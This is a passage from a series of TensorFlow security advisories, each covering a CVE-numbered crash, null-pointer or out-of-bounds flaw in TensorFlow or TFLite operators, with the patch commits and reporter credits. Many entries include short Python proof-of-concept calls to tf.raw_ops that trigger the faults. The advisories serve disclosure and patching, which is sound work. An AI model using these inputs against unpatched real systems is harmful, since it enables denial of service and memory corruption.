[030af767d357d1b4088c4a25c72cb3906abac489](https://github.com/tensorflow/tensorflow/commit/030af767d357d1b4088c4a25c72cb3906abac489).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360 as well as Ye Zhang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-075: Division by zero in TFLite's implementation of `SpaceToDepth`

### CVE Number
CVE-2021-29587

### Impact
The `Prepare` step of the `SpaceToDepth` TFLite operator [does not check for 0
before
division](https://github.com/tensorflow/tensorflow/blob/5f7975d09eac0f10ed8a17dbb6f5964977725adc/tensorflow/lite/kernels/space_to_depth.cc#L63-L67).

```cc
const int block_size = params->block_size;
const int input_height = input->dims->data[1];
const int input_width = input->dims->data[2];
int output_height = input_height / block_size;
int output_width = input_width / block_size;
```

An attacker can craft a model such that `params->block_size` would be zero.

### Patches
We have patched the issue in GitHub commit
[0d45ea1ca641b21b73bcf9c00e0179cda284e7e7](https://github.com/tensorflow/tensorflow/commit/0d45ea1ca641b21b73bcf9c00e0179cda284e7e7).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-164: FPE in LSH in TFLite

### CVE Number
CVE-2021-37691

### Impact
An attacker can craft a TFLite model that would trigger a division by zero
error in LSH
[implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/lsh_projection.cc#L118).

```cc
int RunningSignBit(const TfLiteTensor* input, const TfLiteTensor* weight,
                   float seed) {
  int input_item_bytes = input->bytes / SizeOfDimension(input, 0);
  // ...
}
```

There is no check that the first dimension of the input is non zero.

### Patches
We have patched the issue in GitHub commit
[0575b640091680cfb70f4dd93e70658de43b94f9](https://github.com/tensorflow/tensorflow/commit/0575b640091680cfb70f4dd93e70658de43b94f9).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
## TFSA-2021-155: NPE in TFLite

### CVE Number
CVE-2021-37681

### Impact
The implementation of SVDF in TFLite is [vulnerable to a null pointer
error](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/lite/kernels/svdf.cc#L300-L313):

```cc
  TfLiteTensor* state = GetVariableInput(context, node, kStateTensor);
  // ...
  GetTensorData<float>(state)
```

The [`GetVariableInput`
function](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/lite/kernels/kernel_util.cc#L115-L119)
can return a null pointer but `GetTensorData` assumes that the argument is
always a valid tensor.

```cc
TfLiteTensor* GetVariableInput(TfLiteContext* context, const TfLiteNode* node,
                               int index) {
  TfLiteTensor* tensor = GetMutableInput(context, node, index);
  return tensor->is_variable ? tensor : nullptr;
}
```

Furthermore, because `GetVariableInput` calls
[`GetMutableInput`](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/lite/kernels/kernel_util.cc#L82-L90)
which might return `nullptr`, the `tensor->is_variable` expression can also
trigger a null pointer exception.

### Patches
We have patched the issue in GitHub commit
[5b048e87e4e55990dae6b547add4dae59f4e1c76](https://github.com/tensorflow/tensorflow/commit/5b048e87e4e55990dae6b547add4dae59f4e1c76).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-113: Null pointer dereference and heap OOB read in operations restoring tensors

### CVE Number
CVE-2021-37639

### Impact
When restoring tensors via raw APIs, if the tensor name is not provided,
TensorFlow can be tricked into dereferencing a null pointer:

```python
import tensorflow as tf

tf.raw_ops.Restore(
  file_pattern=['/tmp'],
  tensor_name=[],
  default_value=21,
  dt=tf.int,
  preferred_shard=1)
```

The same undefined behavior can be triggered by `tf.raw_ops.RestoreSlice`:

```python
import tensorflow as tf

tf.raw_ops.RestoreSlice(
  file_pattern=['/tmp'],
  tensor_name=[],
  shape_and_slice='2',
  dt=inp.array([tf.int]),
  preferred_shard=1)
```

Alternatively, attackers can read memory outside the bounds of heap allocated
data by providing some tensor names but not enough for a successful restoration:

```python
import tensorflow as tf

tf.raw_ops.Restore(
  file_pattern=['/tmp'],
  tensor_name=['x'],
  default_value=21,
  dt=tf.int,
  preferred_shard=42)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/47a06f40411a69c99f381495f490536972152ac0/tensorflow/core/kernels/save_restore_tensor.cc#L158-L159)
retrieves the tensor list corresponding to the `tensor_name` user controlled
input and immediately retrieves the tensor at the restoration index (controlled
via `preferred_shard` argument). This occurs without validating that the
provided list has enough values.

If the list is empty this results in dereferencing a null pointer (undefined
behavior). If, however, the list has some elements, if the restoration index is
outside the bounds this results in heap OOB read.

### Patches
We have patched the issue in GitHub commit
[9e82dce6e6bd1f36a57e08fa85af213e2b2f2622](https://github.com/tensorflow/tensorflow/commit/9e82dce6e6bd1f36a57e08fa85af213e2b2f2622).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-044: Division by 0 in `SparseMatMul`

### CVE Number
CVE-2021-29557

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.SparseMatMul`:

```python
import tensorflow as tf

a = tf.constant([100.0, 100.0, 100.0, 100.0], shape=[2, 2], dtype=tf.float32)
b = tf.constant([], shape=[0, 2], dtype=tf.float32)

tf.raw_ops.SparseMatMul(
    a=a, b=b, transpose_a=True, transpose_b=True,
    a_is_sparse=True, b_is_sparse=True)
```

The division by 0 occurs deep in Eigen code because the `b` tensor is empty.

### Patches
We have patched the issue in GitHub commit
[7f283ff806b2031f407db64c4d3edcda8fb9f9f5](https://github.com/tensorflow/tensorflow/commit/7f283ff806b2031f407db64c4d3edcda8fb9f9f5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2018-002: GIF File Parsing Null Pointer Dereference Error

### CVE Number

CVE-2018-7576

### Issue Description

When parsing certain invalid GIF files, an internal function in the GIF decoder
returned a null pointer, which was subsequently used as an argument to strcat.

### Impact

A maliciously crafted GIF could be used to cause the TensorFlow process to
crash.

### Vulnerable Versions

TensorFlow 1.0.0, 1.0.1, 1.1.0, 1.2.0, 1.2.1, 1.3.0, 1.3.1, 1 1.4.1, 1.5.0, 1.5.1

### Mitigation

We have patched the vulnerability in GitHub commit
[c4843158](https://github.com/tensorflow/tensorflow/commit/c48431588e7cf8aff61d4c299231e3e925144df8).
If users are running TensorFlow in production or on untrusted data, they are
encouraged to apply this patch.

Additionally, this patch has already been integrated into TensorFlow 1.6.0 and
newer.

### Credits

This issue was discovered by the Blade Team of Tencent.
## TFSA-2021-081: Division by zero in TFLite's implementation of `DepthToSpace`

### CVE Number
CVE-2021-29595

### Impact
The implementation of the `DepthToSpace` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/0d45ea1ca641b21b73bcf9c00e0179cda284e7e7/tensorflow/lite/kernels/depth_to_space.cc#L63-L69):

```cc
const int block_size = params->block_size;
...
const int input_channels = input->dims->data[3];
...
int output_channels = input_channels / block_size / block_size;
```

An attacker can craft a model such that `params->block_size` is 0.

### Patches
We have patched the issue in GitHub commit
[106d8f4fb89335a2c52d7c895b7a7485465ca8d9](https://github.com/tensorflow/tensorflow/commit/106d8f4fb89335a2c52d7c895b7a7485465ca8d9).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-108: Segfault in `tf.raw_ops.ImmutableConst`

### CVE Number
CVE-2021-29539

### Impact
Calling
[`tf.raw_ops.ImmutableConst`](https://www.tensorflow.org/api_docs/python/tf/raw_ops/ImmutableConst)
with a `dtype` of `tf.resource` or `tf.variant` results in a segfault in the
implementation as code assumes that the tensor contents are pure scalars.

```python
>>> import tensorflow as tf
>>> tf.raw_ops.ImmutableConst(dtype=tf.resource, shape=[],
>>> memory_region_name="/tmp/test.txt")
...
Segmentation fault
```

### Patches
We have patched the issue in GitHub commit
[4f663d4b8f0bec1b48da6fa091a7d29609980fa4](https://github.com/tensorflow/tensorflow/commit/4f663d4b8f0bec1b48da6fa091a7d29609980fa4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2020-008: Data corruption due to dimension mismatch in TFLite

### CVE Number
CVE-2020-15208

### Impact
When determining the common dimension size of two tensors, [TFLite uses a
`DCHECK`](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/kernels/internal/types.h#L437-L442)
which is no-op outside of debug compilation modes:
```cc
// Get common shape dim, DCHECKing that they all agree.
inline int MatchingDim(const RuntimeShape& shape1, int index1,
                       const RuntimeShape& shape2, int index2) {
  TFLITE_DCHECK_EQ(shape1.Dims(index1), shape2.Dims(index2));
  return shape1.Dims(index1);
}
```

Since the function always returns the dimension of the first tensor, malicious
attackers can craft cases where this is larger than that of the second tensor.
In turn, this would result in reads/writes outside of bounds since the
interpreter will wrongly assume that there is enough data in both tensors.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[8ee24e7949a20](https://github.com/tensorflow/tensorflow/commit/8ee24e7949a20)
and will release patch releases for all versions between 1.15 and 2.3.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-026: Segfault in `tf.raw_ops.Switch` in eager mode

### CVE Number
CVE-2020-15190

### Impact
The
[`tf.raw_ops.Switch`](https://www.tensorflow.org/api_docs/python/tf/raw_ops/Switch)
operation takes as input a tensor and a boolean and outputs two tensors.
Depending on the boolean value, one of the tensors is exactly the input tensor
whereas the other one should be an empty tensor.

However, the eager runtime [traverses all tensors in the
output](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/common_runtime/eager/kernel_and_device.cc#L308-L313):
```cc
  if (outputs != nullptr) {
    outputs->clear();
    for (int i = 0; i < context.num_outputs(); ++i) {
      outputs->push_back(Tensor(*context.mutable_output(i)));
    }
  }
```

Since only one of the tensors is defined, the other one is `nullptr`, hence we
are binding a reference to `nullptr`. This is undefined behavior and reported as
an error if compiling with `-fsanitize=null`. In this case, this results in a
segmentation fault.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[da8558533d925694483d2c136a9220d6d49d843c](https://github.com/tensorflow/tensorflow/commit/da8558533d925694483d2c136a9220d6d49d843c)
and will release a patch release for all affected versions.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-125: Heap buffer overflow in `FractionalAvgPoolGrad`

### CVE Number
CVE-2021-37651

### Impact
The implementation for `tf.raw_ops.FractionalAvgPoolGrad` can be tricked into
accessing data outside of bounds of heap allocated buffers:

```python
import tensorflow as tf

tf.raw_ops.FractionalAvgPoolGrad(
  orig_input_tensor_shape=[0,1,2,3],
  out_backprop = np.array([[[[541],[541]],[[541],[541]]]]),
  row_pooling_sequence=[0, 0, 0, 0, 0],
  col_pooling_sequence=[-2, 0, 0, 2, 0],
  overlapping=True)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/fractional_avg_pool_op.cc#L205)
does not validate that the input tensor is non-empty. Thus, code constructs an
empty `EigenDoubleMatrixMap` and then accesses this buffer with indices that are
outside of the empty area.

### Patches
We have patched the issue in GitHub commit
[0f931751fb20f565c4e94aa6df58d54a003cdb30](https://github.com/tensorflow/tensorflow/commit/0f931751fb20f565c4e94aa6df58d54a003cdb30).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-141: Reference binding to nullptr in unicode encoding

### CVE Number
CVE-2021-37667

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in `tf.raw_ops.UnicodeEncode`:

```python
import tensorflow as tf
from tensorflow.python.ops import gen_string_ops

gen_string_ops.unicode_encode(
  input_values=[],
  input_splits=[],
  output_encoding='UTF-8',
  errors='ignore',
  replacement_char='a')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/unicode_ops.cc#L533-L539)
reads the first dimension of the `input_splits` tensor before validating that
this tensor is not empty:

```cc
  const Tensor& input_splits = context->input(1);
  const auto input_splits_flat = input_splits.flat<SPLITS_TYPE>();
  TensorShape output_shape({input_splits.dim_size(0) - 1});
```

### Patches
We have patched the issue in GitHub commit
[2e0ee46f1a47675152d3d865797a18358881d7a6](https://github.com/tensorflow/tensorflow/commit/2e0ee46f1a47675152d3d865797a18358881d7a6).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-031: `CHECK`-fail in `QuantizeAndDequantizeV4Grad`

### CVE Number
CVE-2021-29544

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.QuantizeAndDequantizeV4Grad`:

```python
import tensorflow as tf

gradient_tensor = tf.constant([0.0], shape=[1])
input_tensor = tf.constant([0.0], shape=[1])
input_min = tf.constant([[0.0]], shape=[1, 1])
input_max = tf.constant([[0.0]], shape=[1, 1])

tf.raw_ops.QuantizeAndDequantizeV4Grad(
  gradients=gradient_tensor, input=input_tensor,
  input_min=input_min, input_max=input_max, axis=0)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/95078c145b5a7a43ee046144005f733092756ab5/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L162-L163)
does not validate the rank of the `input_*` tensors. In turn, this results in
the tensors being passes as they are to
[`QuantizeAndDequantizePerChannelGradientImpl`](https://github.com/tensorflow/tensorflow/blob/95078c145b5a7a43ee046144005f733092756ab5/tensorflow/core/kernels/quantize_and_dequantize_op.h#L295-L306):

```cc
template <typename Device, typename T>
struct QuantizeAndDequantizePerChannelGradientImpl {
  static void Compute(const Device& d,
                      typename TTypes<T, 3>::ConstTensor gradient,
                      typename TTypes<T, 3>::ConstTensor input,
                      const Tensor* input_min_tensor,
                      const Tensor* input_max_tensor,
                      typename TTypes<T, 3>::Tensor input_backprop,
                      typename TTypes<T>::Flat input_min_backprop,
                      typename TTypes<T>::Flat input_max_backprop) {
    ...
    auto input_min = input_min_tensor->vec<T>();
    auto input_max = input_max_tensor->vec<T>();
    ...
}
```

However, the `vec<T>` method, requires the rank to 1 and triggers a `CHECK`
failure otherwise.

### Patches
We have patched the issue in GitHub commit
[20431e9044cf2ad3c0323c34888b192f3289af6b](https://github.com/tensorflow/tensorflow/commit/20431e9044cf2ad3c0323c34888b192f3289af6b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 as this is the only other affected version.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-178: Undefined behavior via `nullptr` reference binding in sparse matrix multiplication

### CVE Number
CVE-2021-41219

### Impact
The [code for sparse matrix multiplication](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/sparse_matmul_op.cc#L954-L1086) is vulnerable to undefined behavior via binding a reference to `nullptr`:

```python
import tensorflow as tf

tf.raw_ops.SparseMatMul(
  a=[[1.0,1.0,1.0]],
  b=[[],[],[]],
  transpose_a=False,
  transpose_b=False,
  a_is_sparse=False,
  b_is_sparse=True)
```

This occurs whenever the dimensions of `a` or `b` are 0 or less. In the case on one of these is 0, an empty output tensor should be allocated (to conserve the invariant that output tensors are always allocated when the operation is successful) but nothing should be written to it (that is, we should return early from the kernel implementation). Otherwise, attempts to write to this empty tensor would result in heap OOB access.

### Patches
We have patched the issue in GitHub commit [e6cf28c72ba2eb949ca950d834dd6d66bb01cfae](https://github.com/tensorflow/tensorflow/commit/e6cf28c72ba2eb949ca950d834dd6d66bb01cfae).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-035: Heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29547

### Impact
An attacker can cause a segfault and denial of service via accessing data
outside of bounds in `tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([1], shape=[1, 1, 1, 1], dtype=tf.quint8)
t_min = tf.constant([], shape=[0], dtype=tf.float32)
t_max = tf.constant([], shape=[0], dtype=tf.float32)
m = tf.constant([1], shape=[1], dtype=tf.quint8)
m_min = tf.constant([], shape=[0], dtype=tf.float32)
m_max = tf.constant([], shape=[0], dtype=tf.float32)
v = tf.constant([1], shape=[1], dtype=tf.quint8)
v_min = tf.constant([], shape=[0], dtype=tf.float32)
v_max = tf.constant([], shape=[0], dtype=tf.float32)
beta = tf.constant([1], shape=[1], dtype=tf.quint8)
beta_min = tf.constant([], shape=[0], dtype=tf.float32)
beta_max = tf.constant([], shape=[0], dtype=tf.float32)
gamma = tf.constant([1], shape=[1], dtype=tf.quint8)
gamma_min = tf.constant([], shape=[0], dtype=tf.float32)
gamma_max = tf.constant([], shape=[0], dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc#L176-L189)
assumes the inputs are not empty:

```cc
const float input_min = context->input(1).flat<float>()(0);
const float input_max = context->input(2).flat<float>()(0);
...
const float mean_min = context->input(4).flat<float>()(0);
const float mean_max = context->input(5).flat<float>()(0);
...
const float var_min = context->input(7).flat<float>()(0);
const float var_max = context->input(8).flat<float>()(0);
...
const float beta_min = context->input(10).flat<float>()(0);
const float beta_max = context->input(11).flat<float>()(0);
...
const float gamma_min = context->input(13).flat<float>()(0);
const float gamma_max = context->input(14).flat<float>()(0);
```

If any of these inputs is empty, `.flat<T>()` is an empty buffer, so accessing
the element at index 0 is accessing data outside of bounds.

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/tensorflow/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-103: Stack overflow in `ParseAttrValue` with nested tensors

### CVE Number
CVE-2021-29615

### Impact
The implementation of
[`ParseAttrValue`](https://github.com/tensorflow/tensorflow/blob/c22d88d6ff33031aa113e48aa3fc9aa74ed79595/tensorflow/core/framework/attr_value_util.cc#L397-L453)
can be tricked into stack overflow due to recursion by giving in a specially
crafted input.

### Patches
We have patched the issue in GitHub commit
[e07e1c3d26492c06f078c7e5bf2d138043e199c1](https://github.com/tensorflow/tensorflow/commit/e07e1c3d26492c06f078c7e5bf2d138043e199c1).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2021-006: Division by zero in `Conv3D`

### CVE Number
CVE-2021-29517

### Impact
A malicious user could trigger a division by 0 in `Conv3D` implementation:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 56, 56, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 23, 1])
```

The [implementation](https://github.com/tensorflow/tensorflow/blob/42033603003965bffac51ae171b51801565e002d/tensorflow/core/kernels/conv_ops_3d.cc#L143-L145) does a modulo operation based on user controlled input:

```cc
  const int64 out_depth = filter.dim_size(4);
  OP_REQUIRES(context, in_depth % filter_depth == 0, ...);
```

Thus, when `filter` has a 0 as the fifth element, this results in a division by 0.

Additionally, if the shape of the two tensors is not valid, an Eigen assertion
can be triggered, resulting in a program crash:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[2, 2, 2, 2, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 2, 6, 2], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 39, 34, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

The shape of the two tensors must follow the constraints specified in the [op
description](https://www.tensorflow.org/api_docs/python/tf/raw_ops/Conv3D).

### Patches
We have patched the issue in GitHub commit
[799f835a3dfa00a4d852defa29b15841eea9d64f](https://github.com/tensorflow/tensorflow/commit/799f835a3dfa00a4d852defa29b15841eea9d64f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-133: Reference binding to nullptr and heap OOB in binary cwise ops

### CVE Number
CVE-2021-37659

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in all binary cwise operations that don't require broadcasting (e.g., gradients
of binary cwise operations):

```python
import tensorflow as tf

tf.raw_ops.SqrtGrad(y=[4, 16],dy=[])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/cwise_ops_common.h#L264)
assumes that the two inputs have exactly the same number of elements but does
not check that. Hence, when the eigen functor executes it triggers heap OOB
reads and undefined behavior due to binding to nullptr.

### Patches
We have patched the issue in GitHub commit
[93f428fd1768df147171ed674fee1fc5ab8309ec](https://github.com/tensorflow/tensorflow/commit/93f428fd1768df147171ed674fee1fc5ab8309ec).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-192: Uninitialized access in `EinsumHelper::ParseEquation`

### CVE Number
CVE-2021-41201

### Impact
During execution, [`EinsumHelper::ParseEquation()`](https://github.com/tensorflow/tensorflow/blob/e0b6e58c328059829c3eb968136f17aa72b6c876/tensorflow/core/kernels/linalg/einsum_op_impl.h#L126-L181) is supposed to set the flags in `input_has_ellipsis` vector and `*output_has_ellipsis` boolean to indicate whether there is ellipsis in the corresponding inputs and output.

However, the code only changes these flags to `true` and never assigns `false`.

```cc
for (int i = 0; i < num_inputs; ++i) {
  input_label_counts->at(i).resize(num_labels);
  for (const int label : input_labels->at(i)) {
    if (label != kEllipsisLabel)
      input_label_counts->at(i)[label] += 1;
    else
      input_has_ellipsis->at(i) = true;
  }
}
output_label_counts->resize(num_labels);
for (const int label : *output_labels) {
  if (label != kEllipsisLabel)
    output_label_counts->at(label) += 1;
  else
    *output_has_ellipsis = true;
}
```

This results in unitialized variable access if callers assume that `EinsumHelper::ParseEquation()` always sets these flags.


### Patches
We have patched the issue in GitHub commit [f09caa532b6e1ac8d2aa61b7832c78c5b79300c6](https://github.com/tensorflow/tensorflow/commit/f09caa532b6e1ac8d2aa61b7832c78c5b79300c6).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.
## TFSA-2021-023: Heap buffer overflow in `QuantizedMul`

### CVE Number
CVE-2021-29535

### Impact
An attacker can cause a heap buffer overflow in `QuantizedMul` by passing in
invalid thresholds for the quantization:

```python
import tensorflow as tf

x = tf.constant([256, 328], shape=[1, 2], dtype=tf.quint8)
y = tf.constant([256, 328], shape=[1, 2], dtype=tf.quint8)
min_x = tf.constant([], dtype=tf.float32)
max_x = tf.constant([], dtype=tf.float32)
min_y = tf.constant([], dtype=tf.float32)
max_y = tf.constant([], dtype=tf.float32)

tf.raw_ops.QuantizedMul(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/87cf4d3ea9949051e50ca3f071fc909538a51cd0/tensorflow/core/kernels/quantized_mul_op.cc#L287-L290)
